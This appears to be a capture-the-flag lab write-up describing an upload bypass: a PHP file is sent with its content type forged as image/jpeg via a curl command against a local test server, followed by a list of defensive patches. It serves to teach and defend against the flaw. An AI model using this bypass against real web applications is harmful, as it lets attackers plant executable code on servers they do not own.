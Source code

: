 # Tools

# Exploit

In this one, we try to exploit a breach in the upload. We notice that the web application firewall seems to check only the content-type.
It only seems to accept jpg, so we just have to send a malicious file with the content-type changed to image/jpeg.

```bash
echo '<?php echo "malware" ?>' > /tmp/malware.php && curl -X POST -F "Upload=Upload" -F "uploaded=@/tmp/malware.php;type=image/jpeg" "http://127.0.0.1:8080/index.php?page=upload" | grep 'The flag is :'
```

# Patch

1. Use Safe Storage Location: Store uploaded files outside the web root directory or configure the server to prevent execution of files in the upload directory.

2. Set Proper File Permissions: Set restrictive permissions on the upload directory (e.g., 0750).

3. Consider Using a CDN or Dedicated Image Service: For larger applications, consider using specialized services for handling user uploads.

4. Implement Image Processing: Reprocess all uploaded images to strip any embedded code.

5. Add Logging: Log all upload attempts, successful or not, for security monitoring